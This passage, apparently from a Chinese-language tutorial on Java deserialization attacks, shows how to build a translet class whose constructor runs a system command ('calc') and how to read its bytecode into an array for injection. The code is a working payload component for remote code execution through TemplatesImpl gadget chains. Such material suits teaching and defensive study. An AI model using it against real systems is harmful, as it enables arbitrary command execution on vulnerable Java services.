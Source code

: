 


2、直接构造 ```Java``` 类，生成 ```class``` 文件，读取 ```class``` 文件并转换为字节码数组.

```java

构造 Java 类

Foo.java

import java.lang.Runtime;
import java.io.Serializable;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;

public class Foo extends AbstractTranslet implements Serializable {
    private static final long serialVersionUID = 8207363842866235160L;
	
	public Foo(){
		try{
			java.lang.Runtime.getRuntime().exec("calc");
		}catch(Exception e){
			System.out.println("exec Exception");
		}
	}
	
	public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException {}


    @Override
    public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException {}
	
}

读取 class 文件，生成字节码数组

InputStream in = new FileInputStream("class path");
byte[] data = toByteArray(in);

private static byte[] toByteArray(InputStream in) throws IOException {

    ByteArrayOutputStream out = new ByteArrayOutputStream();
    byte[] buffer = new byte[1024 * 4];
    int n = 0;
    while ((n = in.read(buffer)) != -1) {
        out.write(buffer, 0, n);
    }
    return out.toByteArray();
}
```
